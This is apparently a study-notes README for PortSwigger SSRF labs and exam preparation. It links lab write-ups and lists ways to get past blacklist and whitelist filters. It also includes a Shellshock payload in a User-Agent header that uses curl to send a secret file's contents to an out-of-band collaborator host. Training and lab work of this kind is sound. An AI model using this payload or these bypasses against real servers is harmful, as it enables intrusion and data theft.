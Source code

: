 # [Server-side request forgery](https://portswigger.net/web-security/ssrf)

## Lab

- apprentice:
  - [1. Basic SSRF against the local server](./lab/1.%20Basic%20SSRF%20against%20the%20local%20server.md)
  - [2. Basic SSRF against another back-end system](./lab/2.%20Basic%20SSRF%20against%20another%20back-end%20system.md)
- practitioner:
  - [3. SSRF with blacklist-based input filter](./lab/3.%20SSRF%20with%20blacklist-based%20input%20filter.md)
  - [4. SSRF with filter bypass via open redirection vulnerability](./lab/4.%20SSRF%20with%20filter%20bypass%20via%20open%20redirection%20vulnerability.md)
  - [5. Blind SSRF with out-of-band detection](./lab/5.%20Blind%20SSRF%20with%20out-of-band%20detection.md)
- expert:
  - [6. SSRF with whitelist-based input filter](./lab/6.%20SSRF%20with%20whitelist-based%20input%20filter.md)
  - [7. Blind SSRF with Shellshock exploitation](./lab/7.%20Blind%20SSRF%20with%20Shellshock%20exploitation.md)

## Detect

check every user-controlled field that looks like a URL, a path, ...

tools:

- burpsuite extension: `collaborator everywhere`
  - add target to scope
  - manually check target

## Shellshock for exam

detect:

- ping back at `user-agent` and `referer`

payload:

```http
User-Agent: () { :; }; /usr/bin/curl http://collaborator -d "$(cat /home/carlos/secret)"
Referer: http://localhost:6566
```

## Preventions

- blacklist:
  - Using an alternative IP representation of `127.0.0.1`: such as `2130706433`, `017700000001`, or `127.1`.
  - Registering your own domain name that resolves to 127.0.0.1. You can use `spoofed.burpcollaborator.net` for this purpose.
  - Obfuscating blocked strings using URL encoding or case variation.
- whitelist:
  - bypass: open redirection
  - [lab 6](./lab/6.%20SSRF%20with%20whitelist-based%20input%20filter.md)

## Exam only

If you find an SSRF vulnerability, you can use it to read files by accessing an internal-only service, running on localhost on port 6566

## References

SSRF:

- <https://www.youtube.com/watch?v=ih5R_c16bKc&ab_channel=RanaKhalil>
- <https://www.youtube.com/watch?v=D1S-G8rJrEk&ab_channel=HackInTheBoxSecurityConference>
